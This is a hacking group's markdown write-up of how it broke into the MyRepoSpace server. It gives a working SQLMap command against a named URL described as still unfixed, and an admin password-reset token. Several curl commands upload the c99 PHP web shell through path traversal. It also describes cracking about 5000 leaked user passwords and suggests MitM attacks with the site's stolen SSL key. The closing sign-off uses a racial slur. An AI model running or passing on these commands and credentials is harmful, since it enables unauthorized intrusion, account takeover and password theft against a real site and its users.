 #How We Hacked MyRepoSpace
For this write-up, I'm going to only cover _how_ we were able to gain access to the MRS server, and not the reasons for us doing so.

### How it started
The first bug we used on MRS was a blind SQL injection, found by Ben. This let us access all information stored in the websites databases, but being a blind injection, retrieving anything was very slow. We inadvertently DOS'd the site doing this, bringing it down a few times... Oops.

The URL vulnerable to the injection is: 
```
http://myrepospace.com/register/check1.php?nick=1
```

Using SQLMap, we could gain a SQL shell with:
```
./sqlmap.py -u "http://myrepospace.com/register/check1.php?nick=1" --sql-shell
```

**This has not been fixed**

Using this injection, Ben started snooping through the database contents and  discovered something interesting. Located in the `users` database was a column called `forgetToken`. Investigating further, it was revealed that this token was a randomly generated string, 32 characters long, used for password resets. And it was stored in plain text. 
When you combine this token with the users `id`, you can then do something like this:
```
https://www.myrepospace.com/login/forgot.php?id=215086&v=93bfb5d60cd3778ec5558e29dc3e8c09
```

And you would be greeted with this:

<!-- ![Password reset page](http://i.imgur.com/tlt5kVI.png) -->
![Password reset page](https://raw.githubusercontent.com/BannerBomb/MyRepoSpace-Hack/master/687474703a2f2f692e696d6775722e636f6d2f746c74356b56492e706e67.png)

We could change any users password, access any account that we wanted. The admin account for the site was user id `1`, and with a forgetToken of `0efd8bb79347ada32d249d5f77e6149c`.

###What next?
So this is fun, we could access any account on the site, including the admin's account - but we wanted more. So I went searching. 

One of MRS's 'tools' is iDeb - a part of the site that allows you to upload a zip file, and it converts it into a deb file. This is very handy, but unfortunately it was written very poorly. 

It worked by moving the uploaded zipped file to a temporary directory, unzipping the contents, and then running the `ar` command on the unpacked files to create the debian package. The temporary directory would look something like `http://www.myrepospace.com/iDeb/temp/July/5599b6ff99dba/`, and was completely accessible to us. **This is bad**.

So after figuring out how the iDeb system worked, I simply took a popular php shell, c99.php, zipped it, and uploaded it to be packaged as a deb. Once uploaded, I navigated to the newly created temp directory for the upload, and sure enough `c99.php` was the first file listed. We now had full access to the server, including access to the mysql database. [Discovered by Ethan]

<!-- ![MySQL database on MRS](http://i.imgur.com/5pihv7Z.png) -->
![MySQL database on MRS](https://raw.githubusercontent.com/BannerBomb/MyRepoSpace-Hack/master/687474703a2f2f692e696d6775722e636f6d2f3570696876375a2e706e67.png)

###Admin's fix part 1
The first fix the owner of the site did was moving the temporary directory files were unpacked in to a place we couldn't access - `~/tmp`, the full path being something like `~/tmp/iDeb/July/5599b6ff99dba/zip_contents_here`. You'll notice that random string - this is called a UID and is randomly generated **client side** and sent to the server when you upload a zip file. On the server, iDeb runs this code, creating the directory with the UID:

```
$uID = $_POST['UPLOAD_IDENTIFIER'];
$tmp = "/home/myreposp/tmp/iDeb";
$to = "$tmp/$month/$uID/";

if(!File_exists($to)){
	mkdir($to, 0755, true);
}
```
In order to access our uploaded files (the php shell), we need to have them uploaded to a place accessible to us - specifically `/home/myreposp/public_HTML`. Since the `UID` is created client side, we can manually specify it - and since the site doesn't perform any type of checks on the `UID` its sent, we can do some dirty things using curl and path traversal.

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

This would unpack our zipped file's contents to the root directory of the website... and we were back in. [Discovered by Ben]

###Admins's fix part 2 
The next thing the site owner did was make the `public_html` directory `root` owned - meaning we couldn't write any files to it. This was actually a pretty clever move, but was executed fairly bad. He forgot to make any subdirectories root owned. `~/public_html/` was off limits, but `~/public_html/vip` wasn't. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

We were back in. [Discovered by Ethan]

###Admin's fix part 3
After this breach, the tool was modified to delete the unpacked files after the deb was created. It would take the zip file, unpack it, use `ar` to make the deb, and then delete everything except for the new deb, and the original zip (both of which were useless to us). 

Ok, no problemo! We'll just stop uploading zip files, and start uploading our php shell directly, since the only file type check was done client side through ajax. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

And once again, we were in. [Discovered by Andy]

###Admin's fix part 4
So the admin caught on to us uploaded php files, and added a regex check in `upload.php` to ensure no non-zips were uploaded. When we tried to upload our php shell, it returned a scary error telling us we were uploading an invalid file. Awh! But no worries... even though it threw an error at us, it still uploaded our file as usual. Nice job admin!

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

Ignoring scary errors, we were still in. [Discovered by Andy]

##¯\\\_(&#12484;)_/¯
That's about it, after the last breach the iDeb tool was properly fixed, and our method of getting in was broken. But have no fear, we released the source code to the site, which will reveal that it is littered with bugs and sql injections! All of these 'hacks' were achieved through exploiting a single file, who knows how many other files are as vulnerable as this one was.

~herpes

###About passwords
Passwords were initially **unsalted md5**, until the 2nd of February when the admin switched to... md5 with a static salt. "MRS-WINS", prepended to the password, in case you were wondering. The admin was [quite proud of this](https://twitter.com/myRepoSpace/status/562613742794706944). He kindly left the old passwords in the database for people who hadn't yet changed theirs. We were able to recover about 5000 through rainbow tables and basic dictionary attacks on a recent mid-range CPU in a few hours alone (for research purposes only - but honestly, us telling you we did this is better than someone else secretly using it for evil).

Password resets always use the same static hash (again, an md5 of the password and the unix time of registration tacked on) and so to get into someone's account you can just grab that and paste it into the password reset url. I don't think these ever got re-generated so if someone got a hold of it, you'd be pretty screwed.

After we leaked the user database, the admin changed the hashing to... md5 with a static salt. Now it's "MRS-WINS-AGAIN" - yeah um, nice try but not quite. Apparently the fact that md5 has long been considered obsolete, flawed, and very fast to brute-force on modern hardware, in combination with the fact that a static salt does very little to help, isn't enough to make him spend a moment googling to find how passwords *should* be stored. Grab an md5 from the dump and spend some time learning how to log in without knowing the password by using a colliding hash - go on, I'll wait.

Oh well. It doesn't even matter any more, anyway, because he now kindly sends you a copy of your password hash as a cookie. 

```php
setcookie("gxli","2g".base64_encode("$_SESSION[userID]-$md5pass"),$time+58060800, '/', '.myrepospace.com',false,true);
```

So if you'd like to have a crack at bruteforcing someone's password, just MitM them to grab their cookies (not all of MyRepoSpace enforces HTTPS - oh, and we have their SSL key anyway). Or, change your own user ID, since it's used for the admin's logging. Last we saw this was one of the few places left that allows for an SQLi too. Child's play, really.

You might not think it's a big deal for a not so sensitive site like MyRepoSpace but any time passwords (hashed or not) are leaked, you can guarantee that many people would have used the same password on other sites that may very well be sensitive. There's also the thing of uploading evil packages on otherwise trustable people's repos.

Even if the MyRepoSpace admin claims everything is fixed, it's not. Don't waste your time, go make a repo on GitHub or something.

~ Andy

Fuck bein' on some chill shit. We go 0 to 100 nigga, real quick.

~haifisch
